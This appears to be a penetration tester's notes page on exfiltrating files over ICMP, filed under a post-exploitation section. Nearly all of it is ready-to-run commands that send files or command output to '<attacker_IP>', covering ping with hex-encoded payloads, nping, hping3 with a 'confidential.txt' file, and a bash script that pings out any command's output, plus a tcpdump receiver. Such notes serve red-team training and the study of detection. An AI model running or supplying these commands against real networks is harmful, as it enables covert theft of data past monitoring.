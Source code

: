 # Usage

## 01 - Living off the Land

```
$ tar zcf - file.txt | xxd -p -c 16 | while read line; do ping -p $line -c 1 -q <attacker_IP>; done

$ tar zcf - file.txt | xxd -p -c 4 | while read line; do ping -p $line -c 1 -q <attacker_IP>; done
```

## 02 - Nping

```
$ nping --icmp <attacker_IP> --data-string "file.txt" -c 1
```

## 03 - Hping3

### 3.1 - Sending to Hping3

```
# hping3 -I <interface> -9 <IP> -e MYSIG > confidential.txt
```

The sender

```
# hping3 <attacker_IP> --icmp --sign MSGID1 -d 50 -c 1 --file confidential.txt
```

### 3.2 - Sending to `tcpdump`

We will need a maximum payload size of `1500`.

```
# ip address show eth0 | grep mtu
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
```

Send the file to the attacker's server.

```
# hping3 -1 -E file.txt -u -d 1500 <attacker_IP>
```

Receive the incoming pings with the file.

```
# tcpdump -i eth0 -nX
```

## 04 - Bash Script

```bash
#!/bin/bash

echo "${@:2}"

if [[ -z "$1" ]] || [[ -z "$2" ]];
then
    echo "Usage: $0 <destination> <command>"
    exit 1
fi

DEST=$1
CMD=${@:2}
OUTPUT=$($CMD | xxd -p -c 16)

ORG=$IFS
IFS=$(echo -en "\n\b")

for ROW in ${OUTPUT[@]}
do
    if [[ ${#ROW} = 32 ]]; then
        PAYLOAD=$ROW
    else
        PAD=$(printf "%0$(expr 32 - ${#ROW})d" 0)
        PAYLOAD=$ROW$PAD
    fi
    ping -c 1 -p $PAYLOAD $DEST
done
```

Usage

```
$ chmod +x icmp.sh

$ ./icmp.sh <attacker_IP> file.txt
```

---
## References

### Backlinks

- [[TCPDump]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x05 - File Transfer and Data Exfiltration/Linux/Network Protocols/ICMP/Server]]

### Dale Hobbs

- [Dale Hobbs: Data Exfiltration with Hping3](https://www.phoenixinfosec.com/post/data-exfiltration-with-hping3)
